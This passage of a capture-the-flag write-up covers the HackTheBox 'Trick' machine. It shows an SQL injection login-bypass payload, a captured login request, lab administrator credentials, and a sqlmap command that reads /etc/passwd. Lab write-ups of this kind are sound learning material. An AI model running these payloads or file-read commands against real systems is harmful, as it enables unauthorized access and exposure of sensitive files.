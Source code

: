 Testing some payloads on login fields was fond a **SQLi Vulnerability,** that allow to bypass the authentication and access the next page. The payload SQLI used was **`' or '1'='1`** on field *password,* and to the user filed setup `admin@admin.com` but, it does not matter.

[SQL injection | OWASP Bricks Login page #1](https://sechow.com/bricks/docs/login-1.html)

Was opened the Recruitment Management System page below as Administrator.

![Untitled](pics/Untitled%204.png)

The application has many vulnerability. Some important formations was collected:

- User Administrator
    - Name: Administrator
    - Username: Enemigosss
    - Password: SuperGucciRainbowCake

Looking for SQLI failures, in the employee registration tab we capture the AJAX request and save it in a file. With this request we can append to **sqlmap** tool. We find that the database in question is a MySQL≥ 5.0.12 and there are vulnerable parameters.

```bash
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
Content-Length: 32
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://preprod-payroll.trick.htb
Referer: http://preprod-payroll.trick.htb/login.php
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6p2q7se987tbm0lg55353f6nlm
Connection: close

username=admin&password=password
```

[SQLMap - Cheetsheat](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

Here i wish a shell, but we tried some tags for get a bash with **sqlmap**, but none worked. We can only read flies. So, we can read the `/etc/passwd` and we get the users `root` and `michael`.

```bash
sqlmap -r request.txt --level 3 --batch --file-read=/etc/passwd
```

